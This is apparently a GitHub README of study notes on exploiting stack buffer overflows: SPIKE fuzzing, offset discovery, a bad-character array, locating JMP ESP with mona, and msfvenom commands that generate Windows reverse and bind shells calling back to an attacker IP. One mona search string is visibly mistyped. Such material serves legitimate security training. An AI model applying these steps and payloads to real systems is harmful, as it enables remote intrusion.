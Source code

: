 
# Usefull Links 

1. The Cyber mentor buffer overflow made easy  :

 https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G

2. CrikeyCon 2016 - Justin Steven - The Justin Steven Presentation for Cross-Site Scripters...

 https://www.youtube.com/watch?v=renR0Aj2YzI

## Spiking 

1. generic_tcp_send

2. Create a spike script or run fuzzer

```spk
s_readline();
s_string("State ");
s_string_variable("0");
```

3. generic_send_tcp <ip> <port> test.spk 0 0


--------------------------



1. Segmentation fault;
   Send enough length string for victim system crash
   
2. Find the offset;
 ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>
```
3. Control the EIP;

```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_Value>
```
4. We Will check for bad characters , We already know "\x00"(null) and "\x0d"(Carriage
Return) are bad characters in general.
  
```py
   badchars = (
   "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
   "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
   "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
   "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
   "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
   "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
   "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
   "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
   "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
   "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
   "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
   "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
   "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
   "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
   "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
   "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

5. Find a JMP ESP instruction;

```bash
   !mona modules                                                  #Listing the modules
   !mona modules -o                                               #Listing only the modules that belong to the operating system.(We choose a module that has no memory protections and also does not contain bad characters at the pointer address.)
   ```

```bash
   /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb    #Detection of the JMP ESP value
```
```bash
   !mona find -s “\xff\e4” -m <module name>.dll             #Detection of the module in which JMP ESP value is passed
```

   

6. Create shellcode: 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> -f py -b '<badchars>' -e x86/shikata_ga_nai  # reverseshell 


msfvenom -p windows/shell_bind_tcp LPORT=9001 -b '\x00\x0d\x0a' -f py -e x86/shikata_ga_nai      # bind shell

```

